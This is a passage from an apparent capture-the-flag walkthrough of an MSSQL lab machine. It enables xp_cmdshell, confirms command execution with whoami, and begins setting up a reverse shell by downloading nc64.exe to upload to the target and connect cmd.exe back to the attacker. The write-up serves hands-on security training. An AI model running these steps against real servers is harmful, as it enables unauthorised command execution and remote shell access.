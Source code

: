 ```
enable_xp_cmdshell 
```

If it asks you to `Run the RECONFIGURE statement to install`, type:

```
RECONFIGURE;
```

![MSSQL](./Screenshots/archetypemssql3.png)

Once done, we can execute system commands.

Paste:

```
xp_cmdshell "whoami"
```

to check.

![MSSQL](./Screenshots/archetypemssql4.png)

### Reverse shell preparation

We will upload the `nc64.exe` binary to the target machine and use it to launch an interactive `cmd.exe` session on our listening port.

#### Download `nc64.exe`

Open new tab and type:

```
wget https://github.com/int0x33/nc.exe/raw/master/nc64.exe
```
